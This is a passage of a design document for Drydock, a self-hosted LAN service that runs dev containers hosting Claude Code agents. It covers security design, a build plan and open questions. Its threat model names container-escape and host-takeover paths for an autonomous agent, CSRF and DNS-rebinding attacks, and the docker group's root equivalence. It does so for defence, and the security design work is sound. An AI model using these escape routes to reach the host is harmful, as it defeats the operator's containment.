| Repeated failed sign-ins | `auth_attempt` rows from one or many IPs | Backoff, then a global cap. Surface it in the UI on next sign-in — on a home LAN this is usually a stale saved password, but you want to see it either way. *As built:* a sign-in after failures answers `200 {failed_attempts, failed_sources}` instead of `204`, once — the count is of failures since the last success, attempts the lockout refused included, and `failed_sources` the busiest ten addresses — and the UI says *"2 failed sign-ins since the last successful one, from 192.0.2.66. Usually a device with an old saved password. If it was not you, sign out everywhere and set a new password with `drydock passwd`."*, linking to Settings. |
| Caddy down or misconfigured | UI unreachable; Drydock's socket has no clients | Drydock keeps running and containers keep working — the proxy is not in the agent's path. Fix from a shell; never add a fallback TCP listener. |
| Lost or stolen device | You notice | Revoke all sessions from any other signed-in device; rotate the password with `drydock passwd`. Container credentials are unaffected. |
| Two Drydocks on one host, same label prefix | Advisory lock on the SQLite file at startup | Refuse to start. Two supervisors on one container is a mess nobody wants to debug. |
| Two Drydocks on one host, different label prefixes | Prefix check during reconciliation (§6) | Each adopts only its own containers; foreign ones are logged and left running. This is the case a test run creates, and the one where getting it wrong deletes real work. |
| A session server will not stop (a restart, stop, rebuild or delete) | `docker ps`/`docker exec` fails while signalling it or asking after it, its container is paused, or the container says it is still there after SIGKILL — asked through the pid file even when Drydock holds its terminal (§8) | `degraded` with `stop_failed` — *"Drydock could not stop the session server: Docker did not answer when asked to signal it or whether it had exited, so it may still be running. Ask again once Docker answers."*, the card's *Restart session server* — or `survived_kill` — *"The session server was still running after SIGKILL, so Drydock could not stop it, and it may still hold the workspace's environment. Only its container going ends it: Rebuild the workspace to replace the container; the clone is kept."*, the card's Rebuild. Nothing new is started beside it, by a restart or by any later start, and every press is answered by an event, the same one again included. A workspace stop or delete stops at its `session_server` sub-step for `stop_failed` (Stop, *Delete again*) and carries on to its container step for `survived_kill`, which ends the server. A restart in a paused container is `stop_failed` with its own sentence (*"…Unpause the container and ask again, or stop the workspace."*), and unpauses nothing. A workspace stop, rebuild or delete closes the workspace's GitHub access and then unpauses the container, so the server has its SIGTERM (§8), and pauses it again if the action stops short of ending it, saying so in the failure's detail; one that stays paused carries on to its container step, which ends it, and the next start may then wait a few minutes in `waiting_registration`. |
| `remote-control` refuses with `409` | Message match on startup failure (§8) | A **wait**, not a crash: its own supervisor state, a flat retry interval, no charge against the restart budget, and a UI that says *waiting for the previous server to release the folder*. Every startup failure exits `1`, so the message is the only discriminator. |
| Server reboot | Startup reconciliation (§6) | Adopt running containers, resume sessions, never auto-start what was stopped. |
| Drydock killed inside a step (`SIGKILL`, OOM, unrecovered panic) | At boot: the workspace's newest step event is a `started` (§6) | Close that step as `failed`, *"Drydock stopped while this step was running."*, before reconciliation's plan moves the row. A `running` row stays running and its session server is restarted as for any adoption; a row mid-provision is marked `failed` as for any interrupted build. Never a step shown running forever. |

## 13. Security

There are now two separate security questions, and conflating them is the easy mistake. The first is unchanged: this is a system whose purpose is to let an autonomous agent push code to your repositories, so security there means *bounding the blast radius*, not preventing agent action. The second is new: the control plane is reachable from every device on your home network, and **that control plane is an arbitrary-code-execution surface** — it clones repositories and runs their `devcontainer.json` on the host, with the Docker socket in reach.

### 13.1  The front door

The requirement was “reachable from other machines on the LAN.” The naive reading is `bind 0.0.0.0` in Drydock. The better reading is that *something* must listen on the LAN, and it does not have to be Drydock.

So: **Caddy binds `0.0.0.0:443`. Drydock binds a Unix socket and no TCP port at all.** This is a strictly stronger position than `127.0.0.1:8080` would be, which is worth stating because the difference is easy to miss. A loopback port is reachable by *every* process and every local user on the host; a socket at `/run/drydock/http.sock` with mode `0660` and group `drydock` is reachable only by processes in that group, which is Caddy and nothing else. The LAN-facing attack surface becomes Caddy's TLS stack and HTTP parser rather than Drydock's, which is the right trade: Caddy's job is being a hardened front door, and Drydock's is not.

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="diagrams/04-front-door-gates-dark.svg">
  
</picture>

**Fig 4** — *Three gates, each rejecting a different class of caller, and none of them substituting for the others. Removing any one leaves a real path in: no host matching and a malicious web page can drive the API through a visitor's browser; no socket permissions and any local process is a client; no cookie check and the LAN itself is the credential.*

#### The certificate

Caddy holds a real, publicly-trusted certificate for a name on a domain you own. **How that certificate is obtained, renewed, and delivered to Caddy is out of scope** — existing automation already handles it, and Drydock has no opinion about it beyond needing the result.

Two properties of that result the design does depend on, and would have to be revisited if either stopped holding. The certificate must be trusted by every device with nothing installed on them, which is what makes a phone and a tablet first-class clients rather than a per-device profile chore. And there must be a *hostname*, not just an address: strict `Host` matching in §13.3 is what turns away rebound requests, and there is nothing to match against if the UI is reached at an IP.

```
# Caddyfile — the entire LAN-facing surface (as shipped: deploy/Caddyfile)
{
    admin unix//run/caddy/admin.sock|0600    # NOT the default localhost:2019 — see below
}

drydock.example.com {
    tls /etc/caddy/certs/drydock.pem /etc/caddy/certs/drydock.key   # provisioned externally
    encode zstd gzip
    reverse_proxy unix//run/drydock/http.sock {
        flush_interval -1                          # do not buffer the SSE stream
        header_up X-Forwarded-For {remote_host}
    }
}
# No wildcard and no site block for the bare IP: a request whose Host header
# is anything else matches nothing and is refused here, before Drydock exists.
```

> [!WARNING]
> **Caddy's admin API must not stay on its default, `localhost:2019`**
>
> Earlier drafts of this block left it there, and that quietly undid this section's own argument. The case for a group-owned socket over a loopback port is that a loopback port is reachable by *every* local process — and Caddy's default admin endpoint *is* a loopback port. Anything that can POST a config to it can reconfigure the one process that is a member of the socket's group, and point it at Drydock on its own terms. The shipped `deploy/Caddyfile` moves admin to a `0600` Unix socket, which keeps `caddy reload` working for the operator and no one else; `admin off` is the stricter alternative, at the cost of restarting Caddy for every config change.
>
> The Caddyfile is now a tested artifact (testing §3.2): the conformance test runs the shipped file byte for byte under real Caddy, and asserts nothing listens on `localhost:2019` and that the admin socket is mode `0600`. It also found that two lines in the reverse-proxy block are redundant with Caddy 2.11's defaults and kept as insurance: `flush_interval -1`, since Caddy already flushes streams promptly, and `header_up X-Forwarded-For {remote_host}`, since Caddy already drops an untrusted client's header. The second becomes essential the day anyone sets `trusted_proxies` — putting Tailscale in front, say — and the test runs the shipped site blocks under exactly that global to prove it holds.
)
Reaching this from outside the house is deliberately not Drydock's problem. Tailscale in front of the same Caddy solves it with no change to anything below — the site block, the socket, and the session model all stay as they are. What the design does rule out is the other route: publishing Caddy to the internet would turn a one-password service into an internet-facing one and would force §13.2 to grow a second factor before it was safe.

### 13.2  Session authentication

A password and a session cookie. It is the least sophisticated of the options and the correct one here: no hostname coupling, no per-device enrollment, and no second service to keep running.

| Element | Decision | Why |
|---|---|---|
| Password storage | `argon2id`, parameters encoded in the hash | One password, verified rarely. Tune the cost high — 250 ms of CPU per sign-in is invisible to you and ruinous to a guesser. |
| Setting the password | `drydock passwd` on the host. No HTTP route, ever. | Removes the entire class of “unauthenticated bootstrap or reset endpoint left enabled” bugs. If you are locked out, you have shell on the box. |
| Cookie | `__Host-drydock`, 32 random bytes, `Secure`, `HttpOnly`, `SameSite=Lax`, `Path=/` | The `__Host-` prefix makes a browser refuse the cookie unless it is `Secure`, host-only, and path `/` — no other host can set it, which is a free win now that a real domain is involved. `SameSite=Lax`, not `Strict`, because the cross-site preview handshake ([port forwarding](../port-forwarding/port-forwarding-design.md) §7) redirects the browser from a preview host to `/preview/authorize`, and the session cookie has to ride that top-level navigation; `Strict` would withhold it and a signed-in user would look signed-out. Lax stays CSRF-safe here because mutations are never `GET` (§5) and every state-changing route also checks `Origin` (§13.3). |
| Server side | Store `sha256(token)`, never the token | The SQLite file stops being a bag of live credentials. |
| Expiry | 30-day absolute, 14-day idle, sliding on use | Long enough that a phone stays signed in between uses; short enough that a device you stopped carrying falls off on its own. |
| Lockout | Exponential backoff per source IP, plus a global cap | The per-IP counter alone is defeated by a botnet; the global cap alone lets one noisy device lock you out. Both, and log every attempt. |
| Revocation | A device list in the UI, and one button that kills all sessions | The realistic incident is a lost or stolen phone, not a cryptographic break. Make the response to that one click. |

> [!NOTE]
> **A property the socket gives you for free**
>
> Rate limiting keyed on a client IP is normally unsafe behind a proxy, because `X-Forwarded-For` is attacker-controlled and every “trusted proxy” list is a chance to get it wrong. Here the only thing that can connect to Drydock's socket *is* Caddy, so the forwarded address is as trustworthy as Caddy is, with no allowlist to configure and no way for a request to arrive from anywhere else. Set `trusted_proxies` in Caddy so it strips inbound `X-Forwarded-For` from clients, and Drydock can then take the header at face value.

### 13.3  What a browser can be talked into

Password auth defends against someone typing at the UI. It does nothing about the more interesting attack, which needs no credential at all: **a page you visit makes your own browser issue the requests.** Two variants, two defenses.

- **Cross-site request forgery.** A page at `evil.example` POSTs to Drydock; the browser attaches your cookie because it is your browser. `SameSite=Lax` stops this for essentially every current browser — a cross-site `POST` never carries the cookie — and this covers previews too, because [port forwarding](../port-forwarding/port-forwarding-design.md) puts them on a **separate registrable domain** (`*.drydock-preview.net`), so a preview is genuinely cross-site with this UI rather than a same-site sibling. The `Origin` allowlist on every state-changing route is the belt to `SameSite`'s braces — `SameSite` is a browser behavior you do not control and cannot test in CI, while the `Origin` check is ten lines you own. Do both. Keep the `Origin` check exact-string (`https://drydock.example.com`, never a suffix), failing closed on an absent `Origin`, with no reflected CORS — cheap hygiene that also means the day previews are ever mis-hosted on this registrable domain, CSRF is not immediately wide open.
- **[DNS rebinding](https://github.blog/security/application-security/dns-rebinding-attacks-explained-the-lookup-is-coming-from-inside-the-house/).** The sharper one. A hostile page's domain briefly resolves to Drydock's private address, so the browser considers the request same-origin and sends the cookie voluntarily — `SameSite` does not help, because as far as the browser is concerned nothing is cross-site. What breaks it is that the `Host` header still carries the attacker's domain. Caddy configured as a site block for exactly one hostname turns those requests away before Drydock sees them; Drydock validates `Host` too, so the defense does not live in one config file.

The reason to take this seriously on a home network specifically: the LAN contains devices you did not write and cannot patch — a TV, a printer, a smart plug, a guest's laptop. “Behind the router” has not been a security boundary for a long time, and the whole point of the three gates in Fig 4 is that none of them assumes it is.

> [!NOTE]
> **Previews are cross-site by construction**
>
> [Port forwarding](../port-forwarding/port-forwarding-design.md) serves previews from a **separate registrable domain** (`*.drydock-preview.net`), not a subdomain of this one, precisely so `SameSite` keeps separating repo code from the control plane. "Separate" is eTLD+1 by the Public Suffix List, the unit `SameSite` compares: equal, child, parent and sibling (`preview.example.com` beside `drydock.example.com`) are all the same site, and Drydock refuses each at startup (`config.CrossSite`), as the installer does before installing anything, by asking the bundle's own binary (`drydock check-preview-domain`) rather than a copy of the list in shell. It fails closed where it cannot decide: a UI host that is a single label (`drydock`) or itself a public suffix has no registrable domain to compare, so with one every preview domain is refused — a configuration the older subdomain-only check accepted, and that an upgrade now refuses at startup (the installer already required a dotted `--ui-host`). The cookie is `SameSite=Lax` (§13.2) so the cross-site authorize redirect still carries the session; the `Origin` allowlist stays as belt-and-braces, specified exactly (exact-match, fail-closed on absent `Origin`, no reflected CORS). The supplement's §10.2 carries the reasoning and §10.5 the residual lookalike-phishing note that any separate domain still leaves.

### 13.4  Blast radius

| If this is compromised | Reachable | Not reachable |
|---|---|---|
| A signed-in browser session | Everything Drydock can do: clone any repo in the installation, run its devcontainer build, destroy workspaces. | The App private key. The password. Other hosts on the LAN. |
| One container | Its own repo, with its own permission set. One Claude credential (shared volume). **Every secret granted to that repo, in full (§10.4).** Its own clone's `devcontainer.json`, which the next start or rebuild reads — and stops at, for the operator, if its host access goes beyond what was approved (§6). | Any other repo. The App private key. The Docker socket. Other containers' working trees. Drydock's socket. |
| The shared credential volume | The Claude login, in every container. | GitHub. This is the strongest argument for revisiting §7.1 if the refresh spike goes badly. |
| Caddy | Plaintext of every request, including the password at sign-in and the Claude login code. It can reach Drydock's socket. | The App key, the Docker socket, the containers. It is a proxy and holds nothing else. |
| The preview proxy ([port forwarding](../port-forwarding/port-forwarding-design.md) §10.6) | Every enabled port on every running workspace, over Docker's network — at the address Docker reports for the workspace's labelled container at that moment, never a remembered one, and never a loopback or host-network address. | The App key, the API mux, the host's own listeners, any credential — it holds none, and the preview cookie never reaches the container. |
| The Drydock process | Everything, host included. Holding the Docker socket means it can start a privileged container that mounts the host root. | — The host is the trust boundary; there is no inner one, and no packaging choice would add one. |

**The `docker` group is root by another name, and the installer puts `drydock` in it.** Whoever can ask the daemon for a container can ask for one that mounts `/`. That is the last row above made concrete rather than widened: the row was already written on the assumption that Drydock holds the Docker socket, and `devcontainer up` cannot work without it. What it does make sharper is who else counts as "the Drydock process": anything running as the `drydock` user, which is a service account with no login shell for that reason. Two narrower options were weighed and rejected. A socket proxy that filters the Docker API cannot filter enough: `up` needs build, create with arbitrary bind mounts, and exec, and "create with a bind mount" is the root-equivalent call. Rootless Docker changes which uid the containers' root is, but breaks the path identity §1 relies on (the clone and the broker socket are bind-mounted by path) and the `updateRemoteUserUID` mapping the CLI does for the clone's owner — a different design, not a hardening of this one. Caddy, the one other member of group `drydock`, is not in group `docker`, and the clones under `/srv/drydock/ws` are `0700` so that membership does not reach them either.

**The container writes the configuration the host acts on.** The clone is the container's to write, and `devcontainer up` reads its `devcontainer.json` as the `drydock` user, on the host, with the Docker socket: `initializeCommand` runs there, and `runArgs`, `mounts` and `privileged` become the next container's. Unchecked, that turned the "one container" row into the Drydock row on the operator's next Rebuild. Step 3 therefore computes the configuration's host-access subset — every field outside an allowlist of those that stay in the container, read from the merged configuration so a Feature's or an image's metadata counts — and runs it only when it is within what the operator approved for the repository, with the workspace's containers stopped so what is checked is what `up` reads (§6, *What a configuration may ask of the host*). **The row holds only for repositories with nothing approved.** An approved `privileged` container — docker-in-docker — is host root, and an agent in it can escape without touching its configuration: for that repository, the blast radius is the Drydock row, by the operator's choice. What the gate guarantees everywhere is that a container cannot grant itself host access by rewriting its configuration — and, since the docker guard checks the docker commands `up` actually runs against the same approval (§6, *The docker guard*), that a Feature or image tag that moves between the check and `up` cannot grant it either.

### 13.5  Non-negotiables

- **Drydock binds no TCP port.** Not `0.0.0.0`, not `127.0.0.1`. A Unix socket, group-owned, and Caddy is the only member. If a debug flag to bind a port ever exists, it refuses to start unless the address is loopback and prints a warning every time.
- **No unauthenticated route except the sign-in POST** — and it is the rate-limited one. Auth is middleware around the whole mux, so a route added later is protected by forgetting to think about it, not by remembering.
- **The `Origin` allowlist is exact-match and fails closed.** Every state-changing route checks `Origin` against the literal UI origin — never a suffix or registrable-domain match — and refuses a request whose `Origin` is absent exactly as hard as one whose `Origin` is wrong. Exact means the configured origin must be spelt the way a browser serializes it, host in lowercase, so Drydock refuses to start on a UI origin, host or preview domain with a capital letter rather than refusing every sign-in; matching case-insensitively instead would loosen the one check that is supposed to have no judgement in it. The API emits no permissive or `Origin`-reflecting CORS. This is belt-and-braces behind `SameSite=Lax`, which does the primary CSRF work now that [port forwarding](../port-forwarding/port-forwarding-design.md) keeps previews cross-site (§13.3) — but it is cheap, it is the half you can test in CI, and it is what keeps a future same-registrable-domain mistake from being an instant hole.
- **The App key and the secrets master key are not in the repo, the database, or the environment.** Mode `0400` files supplied by the service manager and read once at startup. Never environment variables — those leak into `/proc`, into crash reports, and into every child process Drydock spawns. The delivery mechanism is the installation document's business; that they never reach the environment is this one's. For the App key, `deploy/install.sh --github-app-key` is that mechanism: it copies the key to `/etc/drydock/github-app.pem` as `0400` owned by `drydock`, and the unit passes Drydock the *path*. Drydock itself refuses a key file its group or anyone else can read. For the secrets master key the installer is the mechanism too, but it *generates* rather than copies: 32 bytes from `/dev/urandom` into `/etc/drydock/secrets.key`, `0400`, owned by `drydock`, on the first install only, passed as `--secrets-key=<path>` (§10.2). It is never printed and never replaced; losing it loses every stored value, so the installer says to back it up.
- **No host-affecting setting runs without an operator approval that covers it.** Before every `up`, step 3 reads the resolved, merged configuration and computes its host-access subset by the allowlist in §6 — `initializeCommand`, `runArgs`, a bind mount, `privileged`, Compose, a build context outside the clone, and anything it does not know — with the workspace's containers stopped first. A non-empty subset runs only if every entry is within the repository's approved set (§6: the same value, or for an item list fewer elements); anything else stops the run, `needs_approval`, before any `up`, and an approval is of exactly the hash shown. Creates are held to it too. And `up` runs docker only through the docker guard, which refuses — before docker runs — any `docker run`, `create` or `build` whose options are not Drydock's own or within that approval, any option or docker command it does not know, and anything that creates a container when it has no policy to hold it to (§6, *The docker guard*): the check reads what the configuration says, the guard what `up` asks for. Approval is recorded per repository and never deleted, and an approval of `privileged` is a decision to give that repository host root.
- **No Docker socket in any workspace container.** Docker-out-of-Docker would let a container mount another container's broker socket, which collapses the whole §9 boundary.
- **Delete requires typing the repo name — and that is the only friction.** No re-authentication prompt on destructive routes: a valid session is treated as you, because on a single-operator system with a device you do not hand around, a second password prompt buys habituation rather than safety. The name-typing stops the misplaced tap, which is the failure that actually happens.
- **Redact by default.** Passwords, login codes, session tokens, GitHub tokens, repository secrets, and PTY buffers never reach the event log, a persisted file, or Caddy's access log.
- **Nothing returns or pre-fills a stored secret value.** No route, response body, SSE event or form carries one back out: not to pre-fill an edit form, not for a “reveal” button, not behind a re-auth prompt. Editing a secret's metadata (its reach and description) is allowed, and so is writing a *new* value over the old one through a field that opens empty — the value is write-only, not unchangeable. The schema has no column for it and the API has no shape for it, so a stolen session cannot harvest what you have stored — only what a workspace it can reach already holds.
- **A secret value is single-line on write, and single-quoted on delivery.** Control characters are refused by the API (§10.1); `drydock-secrets export` quotes every value (§10.3). Either rule missing turns “can store a secret” into “can run code in every granted container, before every command”, which is a boundary nothing else in this design recovers.
- **The workspace label prefix is configuration, and reconciliation refuses a foreign one.** Adoption and deletion are label-driven (§6), so a second instance sharing the prefix inherits the first's containers — including its delete path. The SQLite advisory lock does not cover this, because the second instance has its own database.

One genuinely open risk, narrowed but not closed: a repo's `devcontainer.json` is executable code from the repo, and Drydock builds it on the host with the Docker socket in reach. The fields that reach the host directly run only as the operator approved them for the repository (§6), whoever wrote them, and the docker guard holds what `up` asks Docker for to the same approval; what remains is the build itself — a Dockerfile's `RUN` and a Feature's `install.sh` run in a build container on the host's daemon, with the network. For repos you own this is the same trust you already extend by opening them in VS Code. What the LAN binding changes is who can *trigger* that build — which is why the answer to “how much does auth matter here” is “it is the only thing standing between a device on your wifi and code execution on your dev server.”

## 14. Build plan

Ordered so the riskiest unknown is settled first. Phase 0 is not optional — it decides whether §7.1 survives contact with reality. **It is now complete, and §7.1 survived**; what it changed is recorded in §7.2, §7.3, §8, §10.3, and §11.

| Phase | Deliverable | Done when |
|---|---|---|
| **0 — Spikes** | **Done — all four.** [00](../spikes/00-shared-credential-volume.md) shared credential volume under concurrent refresh: **safe**. [01](../spikes/01-login-handshake.md) scripted login handshake against a PTY: **scriptable**, patterns recorded, and `auth status --json` takes §7.3 out of the scraping business. [02](../spikes/02-rc-restart.md) `remote-control` surviving a supervisor restart: **it reconnects the same environment and sessions**, plus three startup gates the design had missed. [03](../spikes/03-claude-env-file.md) `CLAUDE_ENV_FILE` re-read per Bash command: **yes, 1:1**. | ✅ The shared volume is safe, secrets reach a live session with no restart, and the login URL and session URL both have measured patterns. One assertion is still reasoned rather than observed — the `Login successful` match (Spike 01 needs a human for the success path); close it with `./run.sh login` before Phase 5. |
| **1 — Front door** | Unix socket listener, `drydock passwd`, session middleware, `Origin` and `Host` checks, lockout, device list. A Caddy site block pointed at your existing certificate. A stub UI behind it all. **Done:** the gated API over a real socket, the Caddyfile under real Caddy, the frontend shell with its sign-in view and `401` path embedded in the binary, and a real deployment (`docs/deploy/first-deployment.md`), deployed and in use (v0.4.4). | You can sign in from your phone over HTTPS, and every route without a cookie returns `401`. **Nothing else gets built until this is true.** |
| **2 — Walking skeleton** | Repo list from the App, clone, `devcontainer up`, workspace states, SSE, reconciliation on boot. No Claude, no broker. **Server side done:** `POST /api/workspaces` runs all eight steps (two of them recorded no-ops until Phase 5) through the real server, tested in the container tier for a repository with a config and one without. **Done:** the reboot drill was run on the real server on 8 October 2026 (testing §11.5) and it worked; the one snag was a systemd ordering against a network mount in the deployment's own Ansible, not a Drydock bug. | The button produces a running container you can `devcontainer exec` into, and Drydock survives a reboot. |
| **3 — Credentials** | Token broker, per-workspace socket, git helper, `gh` shim, the Feature's install half. | Inside a container: push a branch, open a PR, and read a workflow run — and fail to touch any other repo. |
| **4 — Secrets** | Encrypted store, the `GET-SECRETS` verb, `drydock-secrets export`, grants UI with the required `reach` field, access log, rotation staleness. **Backend and container side done** (§10.3 *As built*): the store, the four routes, the verb, the client and the env file in the Feature, the installer's master key. **The grants UI is built too** (frontend §6.4): the list, the write-only form with `reach`, grants with the `all_repos` confirm, the two-kinds rotate result. **Done.** | A repo's test suite passes inside the container using a secret you granted it, and the same test suite fails in a repo you did not grant. ✅ for the container half — `test/container`'s real dev container runs a suite through the Feature's `CLAUDE_ENV_FILE` that passes while the secret is granted and fails on the next command once the grant is taken away, nothing restarted. |
| **5 — Claude** | Shared credential volume, login handshake UI, supervisor, session discovery, expiry watch. **Expiry watch done** (§7.3 *As built*): the poller, `claude_identity`, `GET /api/auth/claude`'s identity half, and the fleet banner with its card overlay (frontend §6.6), tested against the recorded fixtures, a canary sweep, and a real volume in the container tier. **The Feature's Claude half and the volume done** (§7.1, §11 *As built, Phase 5*): Claude Code pinned and checked, `CLAUDE_CONFIG_DIR` on the volume step 4 creates, the preflight assertions, and the two hanging keys written under Claude Code's lock — in the container tier, five workspaces share one volume and each runs the pinned `claude`. **The supervisor and session discovery done** (§8 *As built, Phase 5*): one `remote-control` per running workspace on Drydock's PTY, the four refusals told apart by message, the registration wait off the budget, hung gates named after a timeout, SIGTERM-first stops delivered in the container, boot adoption, deference to the stored identity, the environment link and capacity on the card — tested against `fakeclaude` in the component tier and through real `devcontainer exec` and `docker exec` in the container tier. **Still open:** the login handshake (§7.2), and the done-when itself, which needs the owner's real account. **Login handshake done, server and UI** (§7.2 *As built*): the three routes, `auth.login`, a short-lived login container on Drydock's own PTY, Settings' sign-in view, tested against fakeclaude on a PTY, in a real container, and through Chromium; the real `Login successful` is still for a human to see. | Clone → the session appears in the Claude app on your phone, named after the repo. |
| **6 — Livability** | Stop and rebuild, delete with confirmation, the concurrency cap, per-workspace memory and disk on the card, live session count, log viewer, the failure-mode messages from §12. **Stop, rebuild and delete done, server and UI** (§5, §6 *Stop, rebuild, delete*; frontend §4.2, §6.1, §6.5): the three routes, boot reconciliation resuming a delete and then sweeping leftover cleanup helpers, a container-tier test that takes one workspace through provision → stop → start → rebuild → delete against real Docker and the real CLI, and the buttons — a failed stop and a stuck delete each readable from the list after a reload, with their retry one tap. **The cap is visible**: `GET /api/workspaces` reports it with the occupied count, the home screen shows *"n of cap slots"* beside Running, sorts stoppable workspaces first, and at the cap replaces Clone, Start and a Rebuild that needs a slot with a pointer to Stop; the refusal names the number. Phase 5's three are built: the capacity fraction on the card, the log viewer (`/ws/:id/logs`), and a stop that asks first while sessions are live. **Memory and disk on the card done** (§6 *Resources*): sampled on two cadences, carried live by an unpersisted `resources` frame, unknown and stale shown as such, and §12's *Disk full* — the `507 disk_full` pre-flight and the banner. **The rest of the §12 messages done** (§12 *As built*): every row the UI can show names its cause and the one action that fixes it. **Done.** | You stop using the terminal to clean up after it — and when the cap refuses a new workspace, the UI shows you which one to stop rather than just saying no. |

Phases 2 through 4 are independently useful. If Phase 5 turns out to be blocked by something in §2, you still have one-click dev containers reachable from your phone that can push, open PRs, and run their own test suites — which is most of the value, minus the agent. Phase 1 moving to the front is not ceremony: every later phase adds something worth attacking, and retrofitting auth onto routes written without it is how unauthenticated endpoints survive to production.

## 15. Open questions

### 15.1  Still open

**None.** The one question that could have forced a redesign — *does concurrent credential refresh corrupt the shared volume?* — was answered by [Spike 00](../spikes/00-shared-credential-volume.md): it does not. Claude Code serialises refreshes with a lockfile that lives inside `CLAUDE_CONFIG_DIR`, so the shared volume gets cross-container mutual exclusion for free, and its credential writes are atomic renames. §7.1 stands as designed.

What the spike turned up instead is not a race but a blast radius: a dead login blanks the shared credential for every container at once (§7.1, §7.3). That is a UI and monitoring problem, not an architectural one — but it is the thing most likely to look like a Drydock bug at 2am, because ten workspaces fail simultaneously and none of them is at fault.

Phase 0 is now finished and nothing in it forced a redesign either. Spikes [01](../spikes/01-login-handshake.md), [02](../spikes/02-rc-restart.md), and [03](../spikes/03-claude-env-file.md) all confirmed the mechanism the design bet on, and what they changed was detail: scraping patterns, four startup gates that each fail differently, and a per-command prelude with three constraints on how the secrets helper may behave. Two small things remain genuinely unverified rather than decided, both deliberately parked until Phase 5 because neither changes a structure:

- ~~**The `Login successful` match.**~~ **Verified on 8 October 2026:** the owner's real sign-in from Settings (v0.4.4) succeeded. Spike 01 had driven the handshake only through an *invalid* code, with the success string taken from the binary.
- **Worktree trust.** Trust is per absolute path, and `--spawn worktree` creates sessions at paths nothing has trusted (§11). If it bites, it bites only the second and later sessions in a workspace.
- ~~**How long a real access token lives.**~~ **Answered on 8 October 2026:** about eight hours. After the owner's first real sign-in (v0.4.4, runbook §8.6) the stored `expiresAt` was about eight hours out, and `expiring` — then that date within three days — fired on every login, as predicted. It now counts down to the login's own end, `refreshTokenExpiresAt` (§2.4, §7.3).
- **Whether the login's thirty days are the server's or Claude Code's.** `refreshTokenExpiresAt` is the token endpoint's `refresh_token_expires_in` when it sends one, and otherwise thirty days from the login, Claude Code's default. On the default, every login warns from day 27 — as Claude Code itself does — whether or not the refresh token really ends then. **The file cannot settle this:** a server that sends `refresh_token_expires_in = 2592000` writes exactly what the default writes, so a thirty-day `login_expires_at` (which `GET /api/auth/claude` now returns beside `logged_in_at`) proves nothing either way; only a value other than thirty days would show the server sets it. What would settle it is the warning itself: if a login warned on day 27 and then, past day 30, still refreshed rather than blanking, the date was the default. Drydock relays it regardless, because it is what Claude Code would tell an interactive user.

### 15.2  Deferred, and what would reopen each

Everything below was considered and consciously left out of the first version. The second column is the point of this table: a deferral without a trigger is just a thing you forgot.

| Deferred | Reopen when |
|---|---|
| **Sandbox credential tiering** (§10.5) — masking secrets from the agent with `sandbox.credentials` and `strictAllowlist`. | The first time you want to grant a secret you would be unhappy to rotate. At that moment the honest options are the `bubblewrap` spike or not granting it, and *not granting it* should stay the easy answer for as long as it can be. |
| **Per-workspace secret overrides.** Grants are per repository, so two workspaces on one repo see identical secrets. | Something concrete needs them to differ — testing a migration against a scratch database is the likely first case. The schema takes it without reshaping; it is the second concept in the UI that is not worth paying for yet. |
| **Idle reaping** (§1). Nothing stops a workspace automatically. | Manual stopping stops being enough — realistically, when you are regularly hitting the concurrency cap and cannot tell which workspace to free. The blocker is a trustworthy activity signal, not the policy. |
| **Off-LAN access.** Reaching the clone button from outside the house. | Already answered, and answered outside this design: Tailscale in front of the same Caddy (§13.1). No Drydock change, and specifically *not* by exposing Caddy to the internet, which would turn a one-password service into an internet-facing one and force a rethink of §13.2. |
| **Scheduling across the other four servers.** | A single host's memory becomes the actual binding constraint. The `Runtime` seam (§3.2) exists so this stays a port rather than a rewrite — and it is a good problem to have, not the one you have. |

### 15.3  Decided since the first draft

Recorded because the reasoning is easier to lose than the decision.

| Question | Answer |
|---|---|
| Surface individual sessions, or link out? | **Link out.** One link and a count on the card; the Claude app browses (§8). |
| What counts as an eligible repo? | **List everything.** Badge repos with no `devcontainer.json` and generate a default for them at clone time (§6). Inverts only if the installation grows past a hundred repos, where probing each one starts costing real API calls. |
| Where do agent branches go? | **A `drydock/` namespace** (§9.3). Makes cleanup scriptable and agent branches obvious in the GitHub UI. |
| Re-prompt for sign-in on destructive actions? | **No.** Typing the repo name is the only friction on delete, deliberately (§13.5). |
| Is one shared credential volume safe under concurrent refresh? | **Yes** — Claude Code locks in `CLAUDE_CONFIG_DIR` and writes by atomic rename, so the sharing supplies its own mutual exclusion ([Spike 00](../spikes/00-shared-credential-volume.md)). The §7.1 fallbacks are withdrawn; (b) would have made it worse. |
| Can a rotated secret reach a live session without a restart? | **Yes** — `CLAUDE_ENV_FILE` runs once per Bash command ([Spike 03](../spikes/03-claude-env-file.md)). "The environment pulls" is the mechanism; the `CLAUDE.md` convention is the fallback (§10.3). |
| Does a supervisor restart lose the running sessions? | **No** — a plain restart in the same directory reconnects the same environment *and* sessions, after a crash as well as a clean stop ([Spike 02](../spikes/02-rc-restart.md)). `--continue` is unusable in server mode, and a `409` on restart is a wait, not a failure (§8). |
| Does Drydock have to scrape a terminal to watch credential expiry? | **No** — `claude auth status --json` is machine-readable and sees the blanked-credential state; only the countdown needs a file read, of `refreshTokenExpiresAt` (§2.4) ([Spike 01](../spikes/01-login-handshake.md), §7.3). |
| Validate secret values, or escape them at delivery? | **Validate on write** (§10.1), and quote at delivery anyway (§10.3). The write is a human action with an error message attached; delivery is a socket read inside a container, where the only choices are to fail a session or to guess. |
| Is `drydock.workspace` a constant? | **No — a configured prefix** (§6), recorded at first run, with reconciliation refusing a foreign one. The second instance that forced this is the test suite, which is label-driven adoption pointed at real workspaces. |
| Where do the environment id, the identity verdict, and the `409` wait live? | **In columns** (§4). A state the prose requires and the schema cannot hold is one every reader infers differently; all three now come from a single classifier. |

---

#### What I would revisit first as this grows

The shared credential volume and the terminal scraping are the two places where Drydock is holding something the way it does because there is no better documented interface, not because it is the right shape. Both would be replaced immediately by a supported headless auth path or a machine-readable session-status output. Spike 00 raised the confidence on the first of those considerably — the concurrency behaviour underneath it turns out to be carefully built rather than accidental — but it did not change its character: it is still undocumented internals of a pinned version, and the spike is the thing that has to be re-run when that pin moves.

